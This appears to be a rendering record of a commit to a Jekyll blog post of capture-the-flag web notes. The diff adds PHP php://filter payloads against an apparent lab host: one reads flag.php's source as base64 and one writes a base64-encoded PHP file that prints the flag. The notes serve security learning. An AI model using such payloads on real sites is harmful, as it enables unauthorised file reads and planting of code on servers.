

Before and after one commit to co0ontty/co0ontty.github.io, a Jekyll site: the page built from _posts/2019-4-13-Allweb.md, in a window 1280 px wide and 900 px high, scrolled down 1773 px, cut to the strip 0-505 px from the top of the window. Shown: the whole strip, without its empty margins (248-1025 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; a style sheet for code colours, icons or effects is not loaded.

Commit message:
Update 2019-4-13-Allweb.md

```diff
--- a/_posts/2019-4-13-Allweb.md
+++ b/_posts/2019-4-13-Allweb.md
@@ -33,4 +33,7 @@ param1[]=111&param2[]=222
 ### 常见格式：
 http://119.23.73.3:5001/web8/index.php?file=flag.php
 ### php伪协议读源码
-http://119.23.73.3:5001/web8/index.php?file=php://filter/read=convert.base64-encode/resource=flag.php
+http://119.23.73.3:5001/web8/index.php?
+file=php://filter/read=convert.base64-encode/resource=flag.php
+### 利用php伪协议来写入文件
+file=php://filter/write=convert.base64-decode/resource=./tmp.php&c=aPD9waHAgZWNobyhmaWxlX2dldF9jb250ZW50cygiZmxhZy5waHAiKSk7Pz4=
```
